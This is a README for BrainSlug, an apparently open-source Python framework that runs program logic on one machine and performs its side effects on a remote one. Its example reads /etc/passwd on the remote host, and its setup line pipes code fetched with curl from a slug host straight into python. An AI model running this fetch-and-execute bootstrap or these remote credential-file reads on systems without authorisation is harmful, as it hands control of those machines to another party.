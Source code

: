 .. image:: https://raw.githubusercontent.com/BBVA/brainslug/master/assets/images/brainslug.png
   :align: center

.. image:: https://circleci.com/gh/BBVA/brainslug/tree/master.svg?style=svg
    :target: https://circleci.com/gh/BBVA/brainslug/tree/master

BrainSlug is a framework for *parasitic computing*. Allowing you to
write programs which code and logic live in a computer but actions or
*side-effects* are performed on another.

.. warning::

   BrainSlug is a work in progress. Code may change rapidly in a non compatible manner. Any question, please drop us an issue
   
Example:

.. code-block:: python

   from brainslug import run, slug, body

   @slug(remote=body.platform == 'linux')
   def get_root_shell(remote):
       with remote.open('/etc/passwd', 'r') as passwd:
           for line in passwd:
               if line.startswith('root'):
                   return line.split(':')[-1]

   run(get_root_shell)


This code should be run in a computer we call *slug*. Running this code
will open the port 8080 and stop execution until a *body* connects to
it.

To connect a *body*, in a remote system run the following:

.. code-block:: bash

   $ curl http://<slug-ip>:8080/boot/python | python

This will spawn the *body* to life and connect it with the *slug*.

The program continues running in the *slug*, but the file reads are
performed in the *body*.

More examples on the example section.
